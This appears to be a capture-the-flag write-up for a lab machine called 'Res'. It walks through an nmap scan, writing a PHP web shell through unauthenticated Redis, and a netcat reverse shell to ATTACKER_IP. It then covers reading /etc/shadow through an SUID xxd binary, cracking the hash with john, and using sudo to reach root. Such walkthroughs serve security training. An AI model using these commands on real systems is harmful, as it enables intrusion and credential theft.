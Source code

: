 ```yaml
---
title: "Res"
tags:
  - Easy
  - Linux
  - nmap
  - redis
  - xxd
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|    Easy    |  |   10.10.46.25 |  |

---

### [ Scan the machine, how many ports are open? ]

As always, we start off with a `nmap` scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.46.25
```

![screenshot1](../assets/images/res/screenshot1.png)

The results show **2** ports open

---

### [ What's is the database management system installed on the server? ]

**Redis** is installed on the server.

---

### [ What port is the database management system running on? ]

It is installed on port **6379**.

---

### [ What's is the version of management system installed on the server? ]

From the nmap scan, we can see that the version is **6.0.7**.

---

### [ Compromise the machine and locate user.txt ]

After doing some research online, I found this [website](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) which teaches us how to obtain remote code execution via a Redis server:

![screenshot2](../assets/images/res/screenshot2.png)

We can connect to the Redis server using `redis-cli` (Installation: `sudo apt install redis-tools`):

```
redis-cli -h 10.10.46.25 -p 6379
```

By default, Redis servers do not require authentication to login. Fortunately, this is the case for us as we can log in without needing to supply any credentials!

![screenshot5](../assets/images/res/screenshot5.png)

Next, we need to set the working directory of our Redis client to the root directory of the web server.

**HTTP Web server on port 80:**

![screenshot3](../assets/images/res/screenshot3.png)

From the webpage, we know that the web server is running on Apache. A common root directory of Apache servers is **/var/www/html**.

We then follow the exploit instructions like so:

```
// in redis-cli

config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

This will create a new PHP file called **redis.php** in the /var/www/html directory of our target machine. We then set a key 'test' with a value of `<?php phpinfo(); ?>`

To test whether we can access this redis.php file and run the code, we visit `http://10.10.46.25/redis.php`:

![screenshot4](../assets/images/res/screenshot4.png)

Nice! It works :smile: 

Now let's change the PHP code so that we can inject some commands:

```  
// in redis-cli

set test "<?php system($_GET['cmd']); ?>"
save
```

When this PHP code runs, it will get the **cmd** parameter from the GET request sent to the web server. **system()** will then execute that command on the machine.

We then set up a netcat listener running on a port of our choice.

Finally, we can open up a reverse shell by visiting `http://10.10.46.25/redis.php?cmd=nc ATTACKER_IP PORT -e /bin/bash`

![screenshot6](../assets/images/res/screenshot6.png)

And we're in!

Visiting the /home directory, we can see that there is one other account: **vianka**

The **user flag** can be found in vianka's home directory:

![screenshot7](../assets/images/res/screenshot7.png)

---

### [ What is the local user account password? ]

Let's do some manual enumeration.

Looking through vianka's files yielded nothing of interest. There was also nothing useful in directories like /opt and /tmp.

Next, I decided to search for **SUID-bit** set files:

```
find / -type f -perm /u=s 2>/dev/null
```

![screenshot8](../assets/images/res/screenshot8.png)

We have an interesting file: `xxd`

Looking on [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), we can find the following way to exploit this program:

![screenshot9](../assets/images/res/screenshot9.png)

It seems that we can use this program to read any file that we like on the system. Let's follow the exploit steps and read **/etc/shadow**:

```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```

![screenshot10](../assets/images/res/screenshot10.png)

And we have found vianka's hashed password (at the bottom).

We then use `john` to crack the password:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

![screenshot11](../assets/images/res/screenshot11.png)

vianka's password:

> beautiful1

---

### [ Escalate privileges and obtain root.txt ]

We can now log into vianka's account.

![screenshot12](../assets/images/res/screenshot12.png)

Let's check vianka's **sudo privileges**:

```
sudo -l
```

![screenshot13](../assets/images/res/screenshot13.png)

Turns out vianka has complete sudo privileges, meaning they can run any program as any user, including root!

We can then obtain the root flag directly from the root home directory using `sudo`:

```
sudo cat /root/root.txt
```

![screenshot14](../assets/images/res/screenshot14.png)


